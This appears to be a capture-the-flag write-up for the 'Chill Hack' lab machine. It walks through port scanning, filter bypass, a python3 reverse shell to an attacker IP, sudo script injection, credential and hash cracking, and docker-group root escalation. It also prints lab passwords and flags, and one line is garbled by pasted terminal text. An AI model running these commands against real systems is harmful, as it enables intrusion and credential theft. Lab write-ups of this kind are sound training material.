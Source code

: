 # Chill Hack

--------------------------------------------------------------------

## GIVEN INFO

**IP Address**: 10.10.207.138

--------------------------------------------------------------------

## PROCEDURE

```
nmap -sV -p- -oN nmap.txt 10.10.207.138
```

**EXPOSED PORT (SERVICE)**:<br>
    21 (ftp vsftpd 3.0.3)<br>
    22 (ssh OpenSSH 7.6p1),<br>
    80 (http Apache httpd 2.4.29)

anonymous ftp login is allowed
```
ftp anonymous@10.10.207.138
```

Foudn note.txt: Anurodh told me that there is some filtering on strings being put in the command -- Apaar

Enumeurate hidden web directories
```
dirb 10.10.207.138 /usr/share/wordlists/dirb/common.txt
```

Found /secret which allows me to execute commands

Commands like "ls" are banned but can use python3 to get reverse shell
```
nc -lnvp 4444
export RHOST="10.6.1.136";export RPORT=4444;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
sudo -l
```

www-data user can run /home/apaar/.helpline.sh as apaar<br>
There is no input validation in this script so whatever I put in the $msg variable will be executed a apaar
```
sudo -u apaar /home/apaar/.helpline.sh
/bin/bash
/bin/bash
```

**USER FLAG**: {USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}

Upgrade shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Run linpeas
```
chmod +x linpeas
./linpeas
```

Found 2 more open ports (9001 & 3306 which is MySQL)

9001 is a login page
```
curl 127.0.0.1:9001
```

Now we need to find where the code is stored for this page

Found MySQL login in /var/www/files/index.php

**USER**: root<br>
**PASSWORD**: !@m+her00+@db

```
mysql -u root -p
show datases;
use webportal;
show tables;
SELECT * FROM users;

Anurodh Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd
Apaar Dahal    | cullapaar | 686216240e5af30df0501e53c789a649
```

7e53614ced3640d5de23f111806cc4fd = masterpassword<br>
686216240e5af30df0501e53c789a649 = dontaskdonttell<br>

Can't use these passwords for ssh

hacker.php has image that might have hidden data
```
nc -v 10.6.1.136 7777 < hacker-with-laptop_23-2147│[kali@kali] ~  
985341.jpg
nc -lnvp 7777 > pic
steghide extract -sf pic
```

Found backup.zip

```
zip2john backup.zip > 4john
john 4john --wordlist=/usr/share/wordlists/rockyou.txt 
```

**PASSWORD**: pass1word

Found base64 encoded password for Anurodh: IWQwbnRLbjB3bVlwQHNzdzByZA==<br>
**PASSWORD** = !d0ntKn0wmYp@ssw0rd

```
ssh anurodh@10.10.207.138
chmod +x linpeas
./linpeas
```

He is in the docker group which we can exploit

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

**ROOT FLAG**: {ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}